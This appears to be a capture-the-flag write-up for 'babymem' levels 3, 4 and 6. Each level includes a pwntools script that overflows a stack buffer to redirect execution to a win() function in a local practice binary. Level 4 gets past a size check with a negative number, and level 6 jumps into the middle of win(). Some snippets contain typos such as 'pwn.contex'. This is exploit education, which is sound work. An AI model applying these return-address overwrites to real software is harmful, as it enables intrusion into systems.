 ## Level 3

Our goal is to control PC register and execute `win()` function. So we need to figure out:

1. how many bytes should we overwrite (buffer size + old rbp)
2. the address of win()

Use radare2 to disassemble the ELF executable. According to the amd64 syscall table, we know that the buffer size (rsi) is 0x30 = 48. So we need to cover 48 + 8 (old rbp) + 8 (return address) = 64 bytes in total. Besides, the address of win() is 0x401d9e. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-3.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-2.PNG?raw=true)

So the payload is

```python
import pwn 
proc = pwn.process("/babymem_level3_testing2")
proc.sendline("64")
ret_addr = pwn.p64(0x401d9e, endian='little')
payload = b"a" * 56 + ret_addr
proc.sendline(payload)
proc.read(4096)
```

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-1.PNG?raw=true)



## Level 4

In this level, we can input a negative number to bypass the check at 0x40218c (i.e., cmp instruction).

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-2.PNG?raw=true)

Again, find out the address of win() function.

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-3.PNG?raw=true)

And the size of the buffer. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-4.PNG?raw=true)

Send the payload to get the flag.

 ```python
import pwn 
pwn.contex(arch='amd64')
proc = pwn.process("./babymem_level4_testing1")
win_addr = 0x00402040
payload = b"a" * (0x60 + 8) + pwn.p64(win_addr, endian='little')
proc.read(4096)
proc.sendline("-999")
proc.read(4096)
proc.sendline(payload)
proc.read(4096)
 ```

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L4-test1-1.PNG?raw=true)



## Level 6

The win() function needs a certain argument (0x1337). There is a trick to bypass it: jumps to the instruction which prepares to open /flag file. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L6-test1-2.PNG?raw=true)

So we overwrite the return address as 0x00401c96 instead of the start of win(). 

```python
import pwn 
pwn.contex(arch='amd64')
proc = pwn.process("./babymem_level6_testing1")
win_addr = 0x00401c96
payload = b"a" * (0x60 + 8) + pwn.p64(win_addr, endian='little')
proc.read(4096)
proc.sendline("1000")
proc.read(4096)
proc.sendline(payload)
proc.read(4096)
```

Here is the flag. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L6-test1-1.PNG?raw=true)